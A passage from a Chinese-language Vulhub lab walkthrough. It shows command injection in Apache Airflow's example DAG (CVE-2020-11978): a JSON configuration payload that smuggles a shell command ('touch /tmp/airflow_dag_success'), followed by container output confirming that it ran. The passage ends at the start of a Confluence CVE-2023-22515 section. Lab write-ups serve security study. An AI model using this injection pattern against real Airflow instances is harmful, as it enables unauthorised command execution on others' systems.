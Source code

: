 在 Configuration JSON 中执行

```json
{"message":"'\";touch /tmp/airflow_dag_success;#"}
```

![在 Configuration JSON 中执行](./../../../../images/Vulhub/airflow/Apache Airflow 示例dag中的命令注入（CVE-2020-11978）/在 Configuration JSON 中执行.png)

等待一段时间后可以看到执行成功

![等待一段时间后可以看到执行成功](./../../../../images/Vulhub/airflow/Apache%20Airflow%20%E7%A4%BA%E4%BE%8Bdag%E4%B8%AD%E7%9A%84%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%EF%BC%88CVE-2020-11978%EF%BC%89/%E7%AD%89%E5%BE%85%E4%B8%80%E6%AE%B5%E6%97%B6%E9%97%B4%E5%90%8E%E5%8F%AF%E4%BB%A5%E7%9C%8B%E5%88%B0%E6%89%A7%E8%A1%8C%E6%88%90%E5%8A%9F.png)

在 CeleryWorker 容器中进行查看

```shell
┌──(root㉿kali)-[~]
└─# docker-compose -f /root/tools/vulhub/airflow/CVE-2020-11978/docker-compose.yml exec airflow-worker ls -l /tmp
total 8
-rw-r--r-- 1 airflow airflow    0 Dec  5 03:09 airflow_dag_success
drwx------ 2 airflow airflow 4096 Dec  5 02:49 pymp-zg47_6dp
drwx------ 4 root    root    4096 Apr  2  2020 tmp.m9QD2FWWw0
```

> 可以看到 touch /tmp/airflow_dag_success成功被执行

### 2.3 confluence

### 2.3.1 [Confluence 属性覆盖导致权限绕过漏洞 (CVE-2023-22515)](https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2023-22515/README.zh-cn.md)

**环境部署**
